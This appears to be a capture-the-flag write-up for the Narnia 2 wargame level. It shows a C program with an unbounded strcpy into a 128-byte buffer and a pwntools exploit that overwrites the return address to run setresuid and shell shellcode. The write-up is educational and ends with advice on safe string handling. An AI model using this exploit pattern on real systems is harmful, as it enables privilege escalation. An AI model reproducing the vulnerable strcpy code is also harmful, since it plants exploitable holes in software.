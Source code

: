 # Narnia 2

## C File

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```


## Approach

The first thing we can see when looking at the code is that the `strcpy` is unsafe. If `argv[1]` is larger than the buffer this will overflow onto the next items on the stack

This means we can rewrite the return address and jump somewhere

Lets set the return address to the `buf` variable and fill it with shellcode that will be executed

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload += b'A' * (132-len(payload))
payload += p32(0xffffd4ec)
#p = gdb.debug(["/narnia/narnia2", payload], gdbscript="source /opt/gef/gdbinit.py")
p = process(["/narnia/narnia2", payload])
p.interactive()
```

First we need to find the offset. We can use `pwn cyclic` and pass that as our argument and use gdb to find out what address it jumps to

Doing that we get an adress of `0x62616169` which we can look up with `pwn cyclic -l 0x62616169` to be an offset of 132

So now we need to craft a payload in the form of shellcode + rest of the overflow + address to buf

We can get the address to buf using gdb by seeing the arguments passed to the strcpy

Then we send the payload, get our shell, and open the flag

## Conclusion

Be very careful with C string functions. Most do not check for size and can result in overflowing the stack or heap.

Use functions that take in size like `strncpy` instead to avoid overflowing
